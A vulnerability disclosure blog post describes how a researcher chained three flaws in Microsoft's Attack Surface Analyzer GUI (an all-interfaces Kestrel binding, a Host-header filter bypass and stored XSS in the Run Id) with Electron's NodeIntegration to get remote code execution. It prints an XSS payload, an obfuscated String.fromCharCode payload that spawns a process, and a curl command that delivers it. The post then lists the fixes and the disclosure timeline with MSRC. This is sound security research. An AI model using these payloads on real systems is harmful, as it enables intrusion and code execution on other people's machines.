






This is a blog post about how I found three vulns and chained them to get RCE in the Microsoft AttackSurfaceAnalyzer (ASA moving forward) GUI version.
- ASA uses Electron.NET which
binds the internal Kestrel web server to
0.0.0.0. If permission is given to bypass the Windows OS firewall (or if used on an OS without one), a remote attacker can connect to it and access the application. - The web application is vulnerable to Cross-Site Scripting (XSS). A remote attacker can submit a runID with embedded JavaScript that is executed by the victim using the ASA Electron application.
- Electron.NET does not have the
NodeIntegrationflag set to false. This allows the JavaScript payload to spawn up processes on the victim's machine.
Background
Around a month ago someone posted a link to the new version of the tool from Microsoft.
Matt who is my ultimate boss said:
Wrote the first version of that with John Lambert over a holiday break...
Edit: See their conversation about the tool and a link to a presentation talking about it at:
I had never seen the tool before but I had used an internal tool which basically did the same thing and more.
What is AttackSurfaceAnalyzer (ASA)?
According to Microsoft
Attack Surface Analyzer takes a snapshot of your system state before and after the installation of other software product(s) and displays changes to a number of key elements of the system attack surface.
You run it before you install an application/service and then after. Finally, you can compare these two runs to see what the application has installed on the machine.
ASA is typically run as root/admin. Because the application needs as much access as possible to document and monitor changes to the machine.
Electron, Electron EveryWhere!
The new version of the application is based on Electron. Electron is a framework for packaging webapps as desktop applications. Think of it as a Chromium instance opening your webapp running locally. To learn more about Electron, please read any of the many tutorials.
Electron apps are very popular. I am writing this text in VS Code which is another Electron app.
ASA uses Electron.NET which "is a wrapper around a "normal" Electron application with an embedded ASP.NET Core application." I am not very familiar with the inner-workings of either framework but it looks like it runs a local Kestrel web server and then opens an ASP.NET web application via Electron.
Running ASA
I downloaded ASA v2.0.143 and started it in a Windows VM from modern.ie. ASA should be run as admin to get the most visibility into the system/application.
After running ASA in an admin prompt. I saw the Windows Firewall alert.
 First RunThis was strange. Why would a local Electron app need to open Firewall ports? Looking at the command prompt, I saw the culprit.
C:\Users\IEUser\Downloads\AsaGui-windows-2.0.141>
Electron Socket IO Port: 8000
Electron Socket started on port 8000 at 127.0.0.1
ASP.NET Core Port: 8001
stdout: Use Electron Port: 8000
stdout: Hosting environment: Production
Content root path: C:\Users\IEUser\Downloads\AsaGui-windows-2.0.141\resources\app\bin\
Now listening on: http://0.0.0.0:8001
Application started. Press Ctrl+C to shut down.The Kestrel web server is listening on all interfaces on port 8001. The port
is not static, we can see in the application's source code that it starts from
port 8000 and uses the first two available ports. The first is used by Electron
and the second by the Kestrel web server. In a typical scenario, the ports will
be 8000 and 8001.
|
|
These ports are passed to the binary as command line parameters. The binary file
is located at AsaGui-windows-2.0.141/resources/app/bin/electron.manifest.json
in a key named executable:
{
"executable": "AttackSurfaceAnalyzer-GUI"
}Using procmon (use the filter Process Name is AttackSurfaceAnalyzer-GUI or use
Tools > Process Tree) we can see the parameters in action.
AttackSurfaceAnalyzer-GUI.exe /electronPort=8000 /electronWebPort=8001
We can manually go to localhost:8001 to see the application in the browser and
interact with it.
Vuln 1: Listening on All Interfaces
The Kestrel web server listening on all interfaces. If it gets permission to open ports or if you do not have a firewall (disable on Windows or running on an OS without one), anyone can connect to it from outside.
I created a host-only network interface between the guest VM and the host. After
navigating to the guest IP in the host's browser at 192.168.56.101:8001, I got
the following error:
HTTP Error 400. The request hostname is invalid.
Or in Burp:
HTTP/1.1 400 Bad Request
Connection: close
Date: Tue, 21 May 2019 20:14:36 GMT
Content-Type: text/html
Server: Kestrel
Content-Length: 334
<!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 4.01//EN""http://www.w3.org/TR/html4/strict.dtd">
<HTML><HEAD><TITLE>Bad Request</TITLE>
<META HTTP-EQUIV="Content-Type" Content="text/html; charset=us-ascii"></ HEAD >
<BODY><h2>Bad Request - Invalid Hostname</h2>
<hr><p>HTTP Error 400. The request hostname is invalid.</p>
</BODY></HTML>Note the Server: Kestrel response header which is not really secret
information.
Kestrel's Host Filtering
Kestrel has a host filtering middleware. Read more about it at:
It filters incoming requests by the Host header. We can use a simple
Proxy > Options > Match and Replace rule in Burp to convert our requests'
Host header from 192.168.56.101:8001 to localhost:8001 and access the web
application remotely.
This setting is enabled inside
AsaGui-windows-2.0.141/resources/app/bin/appsettings.json via AllowedHosts:
{
"Logging": {
"LogLevel": {
"Default": "Warning"
}
},
"AllowedHosts": "localhost",
"ApplicationInsights": {
"InstrumentationKey": "79fc14e7-936c-4dcf-ba66-9a4da6e341ef"
}
}Vuln2: Cross-Site Scripting
The application does not have a lot of injection points. User input is very limited. We can submit scans and then analyze them. We can export the results in specific paths and create reports.
The Run Id is pretty much the only place with user input. Let's try a basic
injection script and submit a run. When submitting a run, select something
simple like Certificates for quick runs.
Note: Run Ids are stored in a SQLite database and must be unique per app.
 XSS in BrowserOops!
XSS Root Cause Analysis
This is the request to submit our previous run.
http://192.168.56.101:8001/Home/StartCollection?Id=<script>alert(1)</script>&
File=false&Port=false&Service=false&User=false&Registry=false&Certificates=trueThe application then calls GetCollectors to get information about the current
run and display progress.
The response to the app is a string containing a JSON object. The beautified version of our test run is:
{
"RunId": "<script>alert(1)</script>",
"Runs": {
"CertificateCollector": 3
}
}The value of RunId is injected directly into the web page. The culprit is at
js/Collect.js:174:
|
|
There's no input validation or output encoding for data.RunId. Interestingly,
the IDs appear output encoded in the Result tab. Not being
Lewis Ardern (solid 5/7 JavaScript guy), I am glad this simple
payload worked.
XSS in Guest from Remote Payloads
We have this reflected XSS which is pretty much worthless. Ok, not completely
worthless. If an attacker can make you click on a link to localhost:8001 and
submit a payload, they can get XSS in your ASA/browser inside the VM. Not really
that useful.
But it gets better because the XSS persists in the guest VM running the ASA
Electron app. Without submitting a new run, navigate to the Scan tab (or click
on it again) in ASA's Electron app inside the guest VM and you should see the
alert.

When you navigate to the Scan tab, the application retrieves the information
for the latest submitted run (the one we submitted from host VM) and the
injected payload is executed. This means an attacker can connect to the app via
port 8001, submit XSS and then it will pop in ASA when we use it locally.
Vuln 3: XSS to RCE via NodeIntegration
Being Electron, I immediately thought of RCE. There are a lot of write-ups about
how you can convert an XSS to RCE in Electron. It's easy when NodeIntegration
is enabled which is the case for Electron.NET
(link to the current commit):
|
|
More info:
This means we can use the XSS to spawn processes in the guest VM running ASA.
Note that there are NodeIntegration bypasses so just disabling it might not be
enough.
The RCE Payload
It's the typical Electron XSS to RCE payload. Google one and use it.
|
|
Use the JavaScript eval String.fromCharCode encoder to convert
it to the following. Then submit a new run with the payload as the Run Id from
the browser in the host machine (note that I have added a bogus id element to
make each payload unique):
<img id="5" src=x onerror=eval(String.fromCharCode(118,97,114,32,80,114,111,99,
101,115,115,32,61,32,112,114,111,99,101,115,115,46,98,105,110,100,105,110,103,
40,39,112,114,111,99,101,115,115,95,119,114,97,112,39,41,46,80,114,111,99,101,
115,115,59,10,118,97,114,32,112,114,111,99,32,61,32,110,101,119,32,80,114,111,
99,101,115,115,40,41,59,10,112,114,111,99,46,111,110,101,120,105,116,32,61,32,
102,117,110,99,116,105,111,110,40,97,44,98,41,32,123,125,59,10,118,97,114,32,
101,110,118,32,61,32,112,114,111,99,101,115,115,46,101,110,118,59,10,118,97,114,
32,101,110,118,95,32,61,32,91,93,59,10,102,111,114,32,40,118,97,114,32,107,101,
121,32,105,110,32,101,110,118,41,32,101,110,118,95,46,112,117,115,104,40,107,
101,121,43,39,61,39,43,101,110,118,91,107,101,121,93,41,59,10,112,114,111,99,46,
115,112,97,119,110,40,123,102,105,108,101,58,39,99,97,108,99,46,101,120,101,39,
44,97,114,103,115,58,91,93,44,99,119,100,58,110,117,108,108,44,119,105,110,100,
111,119,115,86,101,114,98,97,116,105,109,65,114,103,117,109,101,110,116,115,58,
102,97,108,115,101,44,100,101,116,97,99,104,101,100,58,102,97,108,115,101,44,
101,110,118,80,97,105,114,115,58,101,110,118,95,44,115,116,100,105,111,58,91,
123,116,121,112,101,58,39,105,103,110,111,114,101,39,125,44,123,116,121,112,101,
58,39,105,103,110,111,114,101,39,125,44,123,116,121,112,101,58,39,105,103,110,
111,114,101,39,125,93,125,41,59))>You can also submit the payload locally via this curl command:
curl -vvv -ik -H "Host:localhost:8001" "http://localhost:8001/Home/StartCollection?
Id=<img%20id=%225%22%20src=x%20onerror=eval(String.fromCharCode(118,97,114,32,80,
114,111,99,101,115,115,32,61,32,112,114,111,99,101,115,115,46,98,105,110,100,105,
110,103,40,39,112,114,111,99,101,115,115,95,119,114,97,112,39,41,46,80,114,111,99,
101,115,115,59,10,118,97,114,32,112,114,111,99,32,61,32,110,101,119,32,80,114,111,
99,101,115,115,40,41,59,10,112,114,111,99,46,111,110,101,120,105,116,32,61,32,102,
117,110,99,116,105,111,110,40,97,44,98,41,32,123,125,59,10,118,97,114,32,101,110,
118,32,61,32,112,114,111,99,101,115,115,46,101,110,118,59,10,118,97,114,32,101,
110,118,95,32,61,32,91,93,59,10,102,111,114,32,40,118,97,114,32,107,101,121,32,
105,110,32,101,110,118,41,32,101,110,118,95,46,112,117,115,104,40,107,101,121,43,
39,61,39,43,101,110,118,91,107,101,121,93,41,59,10,112,114,111,99,46,115,112,97,
119,110,40,123,102,105,108,101,58,39,99,97,108,99,46,101,120,101,39,44,97,114,103,
115,58,91,93,44,99,119,100,58,110,117,108,108,44,119,105,110,100,111,119,115,86,
101,114,98,97,116,105,109,65,114,103,117,109,101,110,116,115,58,102,97,108,115,
101,44,100,101,116,97,99,104,101,100,58,102,97,108,115,101,44,101,110,118,80,97,
105,114,115,58,101,110,118,95,44,115,116,100,105,111,58,91,123,116,121,112,101,
58,39,105,103,110,111,114,101,39,125,44,123,116,121,112,101,58,39,105,103,110,111,
114,101,39,125,44,123,116,121,112,101,58,39,105,103,110,111,114,101,39,125,93,125,
41,59))>&File=false&Port=false&Service=false&User=false&Registry=false&Certificates=true"Switch back to the Scan tab (or click on it to reload it if it's already open)
in the guest VM and see calc pop up.
Incidentally, the command line value in procmon for running the calc looks like a kaomoji.
 Calc in procmonFunky Gifs
Injecting the payload from VM host:
 Injecting from host into guestInjecting the payload locally:
 Localhost and curlThe Good and the Bad
[+] ASA is usually run as Admin. This allows ASA to have more visibility into the
OS and give us better results. This means our RCE is as admin.
[+] The ports are usually 8000 and 8001. Unless you are running
something else on those ports, it's easy to discover machines running a
vulnerable version of the ASA.
[-] ASA is usually run in disposable VMs. You are not going to fingerprint your applications on a prod VM. But these VMs are still connected to something.
How Can We Fix This?
- Don't bind the web server to all interfaces.
- Output encode
Run Ids in the progress page. - Enable
NodeIntegrationand other Electron Defenses in Electron.NET.
The issue was reported to Microsoft Security Response Center on May 22nd 2019.
Fixes
NodeIntegrationdisabled andContextIsolationenabled: #218- Not listening on all interfaces - in Gui/Properties/launchSettings.json: #220
encodeURIComponenttherunId- in Gui/wwwroot/js/Collect.js: #220
Timeline
| What Happened | When |
|---|---|
| Report | 22 May 2019 |
| Acknowledgement | 22 May 2019 |
| MSRC asked for clarification | 28 May 2019 |
| MSRC confirmed fix was applied | 06 June 2019 |
| Fix was confirmed | 14 June 2019 |
| Disclosure | 18 June 2019 |